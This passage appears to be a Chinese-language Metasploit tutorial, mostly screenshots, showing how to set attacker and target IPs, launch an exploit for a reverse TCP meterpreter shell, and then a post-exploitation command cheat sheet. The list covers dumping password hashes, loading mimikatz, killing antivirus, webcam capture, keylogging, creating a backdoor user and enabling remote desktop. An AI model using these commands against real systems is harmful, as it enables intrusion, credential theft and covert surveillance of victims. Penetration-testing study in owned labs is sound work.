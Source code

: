 ![](https://p0.ssl.qhimg.com/t01fb857031754efb71.png)![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

查看模块需要配置的参数： show options

![](https://p0.ssl.qhimg.com/t0110407a19c0a029fc.png)

设置RHOST，也就是要攻击主机的ip：set RHOST 192.168.125.138

设置LHOST，也就是我们主机的ip，用于接收从目标机弹回来的shell：set LHOST 192.168.125.129

如果我们这里不设置lport的话，默认是4444端口监听

![](https://p2.ssl.qhimg.com/t01175f0eb1c5996dae.png)

攻击： exploit

![](https://p1.ssl.qhimg.com/t0158eb66ca3f2f03a6.png)

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

## 后渗透阶段

运行了exploit命令之后，我们开启了一个reverse TCP监听器来监听本地的 4444 端口，即我（攻击者）的本地主机地址（LHOST）和端口号（LPORT）。运行成功之后，我们将会看到命令提示符 meterpreter > 出现，我们输入： shell 即可切换到目标主机的windows shell，要想从目标主机shell退出到 meterpreter ，我们只需输入：exit

![](https://p1.ssl.qhimg.com/t01043670323b1204f7.png)

我们要想从 meterpreter 退出到MSF框架，输入：background

![](https://p2.ssl.qhimg.com/t0131b26b0d384fecc7.png)

输入： sessions -l 查看我们获得的shell，前面有id

输入： sessions -i 1 即可切换到id为1的shell

![](https://p0.ssl.qhimg.com/t018d77f01ef8f81fd6.png)![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

输入：shell 即可进入 cmd 类型的控制，再输入：powershell ，即可进入 powershell 类型的控制台

![](https://p2.ssl.qhimg.com/t01ad9e440268f58bde.png)![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

```bash
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
run hashdump        #导出密码的哈希
load kiwi           #加载mimikatz
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid              #查看当前Meterpreter Shell的进程PID
migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权,获得的当前用户是administrator才能成功
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
keyscan_start                #开启键盘记录功能
```